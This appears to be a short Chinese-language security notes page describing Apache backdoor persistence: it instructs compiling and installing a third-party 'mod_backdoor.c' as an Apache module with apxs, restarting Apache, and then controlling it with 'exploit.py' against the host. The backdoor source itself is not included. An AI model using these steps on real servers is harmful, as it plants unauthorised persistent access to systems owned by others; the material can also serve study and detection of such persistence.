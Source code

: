 # Apache后门维持

## 漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 复现过程

https://github.com/ianxtianxt/apache-

**1、上传 mod_backdoor.c到服务器，并执行命令**


```bash
apxs -i -a -c mod_backdoor.c && service apache2 restart
```

![](images/15889380176218.jpg)


2、控制端执行方法


```bash
python exploit.py 127.0.0.1 80
```

![](images/15889380286286.jpg)
